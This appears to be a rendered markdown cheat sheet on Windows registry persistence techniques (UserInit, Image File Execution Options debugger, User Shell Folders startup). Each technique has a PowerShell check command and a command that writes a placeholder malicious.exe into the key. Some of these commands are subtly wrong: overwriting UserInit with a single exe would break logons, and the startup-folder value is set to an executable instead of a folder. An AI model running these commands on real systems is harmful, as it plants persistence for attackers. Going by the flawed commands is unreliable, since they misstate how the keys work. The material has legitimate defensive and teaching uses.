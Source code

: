 #### UserInit (Login Script Hijacking)
   - Registry Path:
     - `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit`
   - Purpose: Specifies programs that are run when a user logs in.
   - Abuse: By modifying the `UserInit` key, an attacker can ensure that malicious code is executed every time a user logs in, potentially with SYSTEM privileges.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "UserInit"
   ```

   PowerShell Example to Add Malicious Entry:
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "UserInit" -Value "C:\path\to\malicious.exe"
   ```

#### Image File Execution Options (Debugger Hijacking)
   - Registry Path:
     - `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`
   - Purpose: Used to specify a debugger to be attached to specific executables.
   - Abuse: An attacker can set a debugger to launch instead of a legitimate program, running malicious code with SYSTEM privileges.

   PowerShell Example to Check Existing Debugger Keys:
   ```powershell
   Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options"
   ```

   PowerShell Example to Set Debugger:
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" -Name "Debugger" -Value "C:\path\to\malicious.exe"
   ```

#### Startup Folder (Persistence and Privilege Escalation)
   - Registry Path:
     - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders`
   - Purpose: Specifies the paths for folders used by the system for user profiles and startup applications.
   - Abuse: If an attacker can write to the startup folder, they can place malicious programs that will execute automatically on login.

   PowerShell Example to Check Permissions:
   ```powershell
   Get-Acl -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" | Format-List
   ```

   PowerShell Example to Add Malicious Startup Entry:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value "C:\path\to\malicious.exe"
   ```
